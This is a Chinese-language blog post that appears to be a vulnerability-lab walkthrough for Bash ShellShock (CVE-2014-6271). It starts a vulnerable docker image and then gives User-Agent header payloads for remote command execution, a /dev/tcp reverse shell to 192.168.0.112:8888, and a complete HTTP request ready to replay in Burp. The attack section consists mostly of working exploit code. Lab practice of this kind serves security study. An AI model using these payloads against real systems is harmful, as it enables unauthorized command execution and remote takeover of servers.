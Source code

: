 ```yaml
---
layout: post
title: "Bash ShellShock CVE-2014-6271(破壳)"
date: 2016-06-30 02:35:30 +0800
image: '/assets/img/'
description: 'Bash ShellShock CVE-2014-6271(破壳)'
main-class: 'hole'
color: '#B31917'
tags:
- Bash
- Command-Execution
categories:
- Bash
twitter_text: 'Bash ShellShock CVE-2014-6271(破壳)'
introduction: 'Bash ShellShock CVE-2014-6271(破壳)'
---
```


### 获取环境:

1. 拉取镜像到本地
 ```bash
$ docker pull medicean/vulapps:b_bash_shellshock1
 ```

2. 启动环境
 ```bash
$ docker run -d -p 80:80 medicean/vulapps:b_bash_shellshock1
 ```
 > `-p 80:80` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址/cgi-bin/poc.cgi`，通过 Burp 截包，修改 HTTP 请求头中 UA 字段：

* 命令执行

 ```
User-Agent: () { :;};echo ; echo; echo $(/bin/ls -al /);
 ```

* 反弹 Shell 到 192.168.0.112 8888端口:

 ```
User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.0.112/8888 0>&1;
 ```


完整的请求报文如下(可直接复制到 Burp 下重放)：

```http
GET /cgi-bin/poc.cgi HTTP/1.1
Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
User-Agent: () { :;};echo ; echo; echo; echo $(/bin/ls -al / );
Accept-Encoding: gzip, deflate, sdch
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6


```

> 注意：部分嵌入式设备的环境变量未设置会导致一些命令需要使用绝对路径，可在执行命令前导入环境变量

eg:

```
User-Agent: () { :;};echo ; echo; export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; echo $(/bin/ls -al /);
```

### 改动日志

20170103

 * 添加 PATH 说明 

20160731

 * 修正资源为本地路径
